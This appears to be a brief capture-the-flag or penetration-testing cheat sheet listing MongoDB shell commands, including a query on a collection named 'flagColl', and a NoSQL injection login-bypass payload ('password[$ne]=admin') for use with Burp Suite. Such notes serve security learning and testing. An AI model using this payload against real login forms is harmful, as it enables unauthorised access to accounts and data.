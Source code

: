 #### interacting with Mongodb

```
show dbs
use db
show collections
help
db.flagColl.find()
```

#### NoSql Injection Methods

```
username=admin&password[$ne]=admin (burpsuite)
```
